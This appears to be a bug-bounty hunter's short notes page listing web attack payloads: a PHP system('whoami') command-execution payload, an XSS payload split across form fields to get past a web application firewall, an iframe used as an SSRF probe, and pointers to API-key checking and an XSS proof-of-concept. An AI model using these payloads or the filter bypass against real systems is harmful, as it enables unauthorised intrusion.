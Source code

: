 ```yaml
---
layout: page
title: Notes
cover-img: /assets/img/notes.jpg
subtitle: Notes and thoughts
---
```


1. Use this as payload, when it is vulnerable to xss: `<?php system('whoami'); ?>` [link](https://amakki.me/how-i-made-15k-from-remote-code-execution-vulnerability-2e1b14b3902a)

2. If WAF blocked your payload, you can bypass it by separating the payload. [link](https://twitter.com/AMakki1337/status/1478048809217400837)

    First Name: `<svg`

    Last Name: `onload=alert(1)>`

    Name: `<svg onload=alert(1)>`

3. This can be a payload for SSRF: `<iframe src='https://labs.amakki.me'>` [link](https://amakki.me/full-ssrf-by-exporting-pdf-bbe1bfde24c4)

4. Got some api keys, let's check this [KeyHacks](https://github.com/streaak/keyhacks) 

5. Another nice payload for XSS: [link](https://brutelogic.com.br/poc.svg)

